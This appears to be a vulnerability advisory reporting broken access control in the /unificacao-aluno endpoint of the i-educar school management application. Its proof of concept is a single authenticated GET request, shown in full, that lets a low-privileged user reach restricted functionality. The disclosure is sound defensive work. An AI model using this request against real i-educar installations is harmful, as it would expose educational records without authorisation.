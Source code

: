# Broken Access Control  in `/unificacao-aluno` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/unificacao-aluno` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET /unificacao-aluno`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for permited users .

---

## PoC

1. Authenticate as a non-privileged user.
   
<img width="1603" height="673" alt="Pasted image 20250914131157" src="https://github.com/user-attachments/assets/d8137058-99cb-4811-805a-0ad38bbc5098" />

<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/48932552-3481-4753-bfb5-fcc8d777e690" />

    
2. Send the following request::

```
GET /unificacao-aluno HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_consulta_movimento_mensal_lst.php?ano=2025&ref_cod_instituicao=1&ref_cod_escola=4&ref_cod_curso=3&ref_cod_serie=&ref_cod_turma=&data_inicial=01%2F08%2F2025&data_final=31%2F08%2F2025&modalidade=1
Cookie: i_educar_session=[low_privileged cookie]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function. And, this user, should not do that.

<img width="1585" height="666" alt="Pasted image 20250914132409" src="https://github.com/user-attachments/assets/d40ae3c9-5353-4e60-b22b-d7b5edbbc635" />


---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
